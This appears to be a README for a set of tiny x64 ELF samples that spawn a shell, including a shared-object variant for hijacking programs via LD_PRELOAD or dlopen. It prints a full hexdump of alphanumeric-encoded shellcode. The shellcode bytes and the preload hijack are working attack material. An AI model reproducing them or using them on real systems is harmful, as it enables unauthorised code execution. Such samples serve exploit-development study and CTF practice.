 # Tiny ELF sample

## pop_shell_x64

- arch: x64
- shellcode pos: 0x78
- size: 180 bytes

just pop a shell.

test:

```
./pop_shell_x64
$ whoami
veritas
$
```



## pop_shell_preload_x64.so

- arch: x64
- shellcode pos: 0x170
- size: 428 bytes

just pop a shell, but can be used to hijack program using LD_PRELOAD or dlopen.

test:

```
./pop_shell_preload_x64.so
$ whoami
veritas
$

LD_PRELOAD=./pop_shell_preload_x64.so /usr/bin/true
$ whoami
veritas
$
```



## pop_shell_alnum_x64

- arch: x64
- size: 323 bytes

just pop a shell, but shellcode is alphanumeric encoded by [AE64](https://github.com/veritas501/ae64).

```
$ hexdump -C pop_shell_alnum_x64
00000000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
00000010  03 00 3e 00 01 00 00 00  28 00 00 00 00 00 00 00  |..>.....(.......|
00000020  40 00 00 00 00 00 00 00  e8 00 00 00 00 58 eb 48  |@............X.H|
00000030  00 00 00 00 40 00 38 00  01 00 40 00 00 00 01 00  |....@.8...@.....|
00000040  01 00 00 00 07 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  78 00 00 00 00 00 00 00  78 00 00 00 00 00 00 00  |x.......x.......|
00000070  00 10 00 00 00 00 00 00  57 54 59 48 33 39 59 6a  |........WTYH39Yj|
00000080  6f 54 59 66 69 39 70 59  57 5a 6a 4a 54 59 66 69  |oTYfi9pYWZjJTYfi|
00000090  39 70 30 30 74 38 30 30  54 38 55 30 54 38 56 6a  |9p00t800T8U0T8Vj|
000000a0  42 54 59 66 69 39 38 59  30 74 38 30 30 54 38 4b  |BTYfi98Y0t800T8K|
000000b0  48 63 31 6a 4b 54 59 66  69 31 56 55 4c 4a 74 30  |Hc1jKTYfi1VULJt0|
000000c0  59 6a 32 54 59 66 69 31  67 66 56 59 49 4a 34 4e  |Yj2TYfi1gfVYIJ4N|
000000d0  56 54 58 41 6b 76 32 31  42 32 74 31 31 41 30 76  |VTXAkv21B2t11A0v|
000000e0  31 49 6f 56 4c 39 30 75  7a 51 79 52 5a 45 45 6e  |1IoVL90uzQyRZEEn|
000000f0  64 65 65 35 64 46 52 4a  4f 41 4f 64 75 41 35 54  |dee5dFRJOAOduA5T|
00000100  59 6f 6b 54 52 63 31 30  73 69 6e 71 4a 4b 30 31  |YokTRc10sinqJK01|
00000110  41 41 4a 4c 56 36 56 31  45 73 6d 65 69 6c 62 30  |AAJLV6V1Esmeilb0|
00000120  37 6f 46 6a 73 5a 6b 66  4e 6f 35 7a 50 41 31 5a  |7oFjsZkfNo5zPA1Z|
00000130  30 6c 6a 48 69 4c 47 48  6e 34 4c 48 63 65 62 32  |0ljHiLGHn4LHceb2|
00000140  54 66 4c                                          |TfL|
00000143
```



test:

```
./pop_shell_alnum_x64
$ whoami
veritas
$
```

